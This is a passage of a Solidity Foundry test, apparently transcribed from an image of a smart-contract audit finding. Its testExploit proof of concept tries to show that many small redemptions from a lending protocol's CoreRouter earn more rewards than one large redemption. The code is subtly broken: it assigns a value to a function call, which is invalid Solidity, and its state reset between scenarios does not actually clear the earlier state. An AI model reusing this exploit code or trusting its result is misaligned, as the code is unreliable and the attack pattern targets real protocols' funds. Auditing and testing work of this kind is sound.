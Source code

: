 ```solidity
    LendStorage public lendStorage;
    LToken public lToken;
    MockERC20 public underlyingToken;
    MockLendtroller public lendtroller;

    address public alice = address(0x1);
    uint256 public constant SUPPLY_AMOUNT = 1000 ether;
    uint256 public constant REDEEM_AMOUNT = 1 ether;
    uint256 public constant NUM_REDEMPTIONS = 100;

    function setUp() public {
        // Deploy contracts
        lendtroller = new MockLendtroller();
        lendStorage = new LendStorage(address(lendtroller));
        coreRouter = new CoreRouter(address(lendStorage));
        underlyingToken = new MockERC20();
        lToken = new LToken(address(underlyingToken));

        // Configure lendStorage
        lendStorage.addLToken(address(underlyingToken), address(lToken));

        // Mint tokens to Alice
        underlyingToken.mint(alice, SUPPLY_AMOUNT);
    }

    function testExploit() public {
        // Alice supplies 1000 DAI to get 1000 lDAI
        vm.startPrank(alice);
        underlyingToken.approve(address(coreRouter), SUPPLY_AMOUNT);
        coreRouter.supply(SUPPLY_AMOUNT, address(underlyingToken));
        vm.stopPrank();

        // Simulate reward accrual
        lendtroller.setSupplyIndex(1.5e18); // Increase supply index

        // Scenario 1: Multiple small redemptions
        uint256 totalRewardsSmallRedemptions = 0;
        vm.startPrank(alice);
        for (uint256 i = 0; i < NUM_REDEMPTIONS; i++) {
            coreRouter.redeem(REDEEM_AMOUNT, address(lToken));
            totalRewardsSmallRedemptions += lendStorage.lendAccrued(alice, address(lToken));
            lendStorage.lendAccrued(alice, address(lToken)) = 0; // Reset for next iteration
        }
        vm.stopPrank();

        // Reset state for Scenario 2
        vm.startPrank(alice);
        underlyingToken.approve(address(coreRouter), SUPPLY_AMOUNT);
        coreRouter.supply(SUPPLY_AMOUNT, address(underlyingToken));
        lendtroller.setSupplyIndex(1.5e18);
        vm.stopPrank();

        // Scenario 2: Single large redemption
        vm.startPrank(alice);
        coreRouter.redeem(REDEEM_AMOUNT * NUM_REDEMPTIONS, address(lToken));
        uint256 rewardsLargeRedemption = lendStorage.lendAccrued(alice, address(lToken));
        vm.stopPrank();

        // Verify exploit
        assertGt(totalRewardsSmallRedemptions, rewardsLargeRedemption, "Exploit failed: Rewards not manipulated");
        console.log("Total rewards from small redemptions:", totalRewardsSmallRedemptions);
        console.log("Rewards from large redemption:", rewardsLargeRedemption);
```